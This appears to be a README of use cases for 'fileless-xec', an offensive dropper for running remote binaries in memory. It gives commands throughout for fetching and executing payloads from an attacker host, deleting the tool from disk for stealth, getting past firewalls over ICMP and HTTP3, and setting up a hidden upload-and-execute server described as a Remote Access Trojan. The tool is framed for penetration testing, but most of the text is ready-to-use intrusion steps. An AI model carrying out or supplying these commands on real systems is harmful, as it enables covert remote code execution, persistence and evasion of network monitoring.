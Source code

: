# `fileless-xec` use cases and examples


  - [`curl | sh` for binaries](#curl--sh-for-binaries)
  - [Execute binary with stdout/stdin](#execute-binary-with-stdoutstdin)
  - [Execute binary with arguments](#execute-binary-with-arguments)
  - [`fileless-xec` self remove](#fileless-xec-self-remove)
  - [Bypass network restriction with ICMP](#bypass-network-restriction-with-icmp)
  - [Bypass firewall with HTTP3](#bypass-firewall-with-http3)
  - ["Remote go": execute go binaries without having go installed locally](#remote-go-execute-go-binaries-without-having-go-installed-locally)
  - [Execute a shell script](#execute-a-shell-script)
  - [`fileless-xec` server mode](#fileless-xec-server-mode)
    - [RAT (Remote Access Trojan) scenarion](#rat-remote-access-trojan-scenario)
  - [`fileless-xec` on windows](#fileless-xec-on-windows)

## `curl | sh` for binaries

This is the basic use case for `fileless-xec`. It enables us to run a remote binary without dropping it on disk:
```shell
fileless-xec [binary_url]
```

## Execute binary with stdout/stdin

`fileless-xec` is able to execute binaries with stdout and stdin. There isn't any special configuration or flag to make it works

## Execute binary with arguments

You can also passed arguments to your binary:
```
fileless-xec [binary_url] -- [flags_and_values_for_the_binary]
```

## `fileless-xec` self remove

On linux, you could remove `fileless-xec`from disk during its execution. This a step further for stealthiness:
```
fileless-xec --self-remove [binary_url]
```

## Bypass network restriction with ICMP

For several reasons, it is sometimes stealther to use icmp protocol (not monitored, not blocked, etc ...). In this case, fileless-xec could be used as an ICMP server to retrieve binary content before execute it. 

*Product placement: To send the binary content you should use [`QueenSono`](https://github.com/ariary/QueenSono) (icmp tools for data transfer/exfiltration)*

On target machine, launch the icmp server:
```
fileless-xec icmpserver [listening_addr]
```

On attacker machine, base64 encode the binary, and send it using `qssender` (Queensono client):
```
cat [binary] | base64 > tmp
qssender send file -d 1 -l 0.0.0.0 -r [remote_listening_addr] -s 63000 tmp
rm tmp
```


## Bypass firewall with HTTP3

See [HTTP3 - README](https://github.com/ariary/fileless-xec#http3quic) for explanation about the benefit of HTTP3 (spoil: bypass fw):

On attacker machine, set up HTTP3 server:
```bash
./example/http3/genkey.sh
go build light-server.go
./light-server  # launch on port 6121
```

On target machine, tell that you want to use http3:
```
fileless-xec --http3 https://[attacker_ip]:6121/[binary_name]
```


## "Remote go": execute go binaries without having go installed locally

### Pre-requisites

* Attacker machine: 
  * go installed
* Target machine:
  * `fileless-xec`


If you want to run some go code on machine where go is not installed and you don't want to install it:

* For stealthiness reason (in a pentest, the less we install the better)
* For idleness or quickness reason

You will build your go on attacker machine, and use `fileless-xec` to execute it on target machine.

Of course, this use case is applicable for every program language that provides toolchains to make binaries (ex C/C++)


## Execute a shell script

If you are tired of running binaries.. and you want to run shell. This is a workaround example.

1. Transform your script in go code: (delete line `#!/bin/bash` and avoid `"`)

```
go build ./example/shell/generate.go
./generate myscript.sh
```

2. Compile it:

 ```
 go build nestedscript.go
 ```

3. Classicaly execute it on target
```
fileless-xec  [binary_url]
```

## `fileless-xec` server mode

This feature provide  another type of interaction between target and attacker machine:
target machine would have a server (upload binaries server) and attacker machine will send the binary ( trough http, http3, ...) to the server. Once the binary file received the target machine execute it as usual.

We change the connection direction between the 2 machines. As bind shell/reverse shell, it is useful to have both possibilities to adapt to the different possible network permissions



On target Launch the server:
```
fileless-xec server [port]
```

On Attacker machine send the binary to be executed:
* with curl: `curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP:PORT]/upload`
* using client provide in example: 
```
#change url and port in ./example/client/client.go to the target machine ones
go build ./example/client/client.go
./client [BINARY_FILENAME]`
```

### RAT (Remote Access Trojan) scenario

fileless-xec is a dropper that make your program execution stealth. But we can go further and launch a stealth fileless-xec server (RAT), that will wait for program execution
*ie Use fileless-xec to launch a stealth fileless-xec server*
1. On attacker machine build/download fileless-xec and expose it trough HTTP server:
```
# in the same folder of fileless-xec binary
python3 -m http.server 11211
```

2. On target machine launch your stealth fileless-xec server w/ fileless-xec:
```
./fileless-xec --self-remove http://[ATTACKER_IP:PORT]/fileless-xec -- serve 11211
```

3. Now your fileless-xec is silently and patiently waiting for your program to execute it. If you want execute it, on attacker machine:
```
curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP]:11211/upload
```

## `fileless-xec` on windows

You could alse use `fileless-xec` on windows.
Build `fileless-xec.exe` with Makefile:
```
make windows.build.fileless-xec
```

Usage is the same except that it is less stealth as binaries are on disk and you can't self remove `fileless-xec` while execution. Meanwhile the binary is immediatly deleted after execution
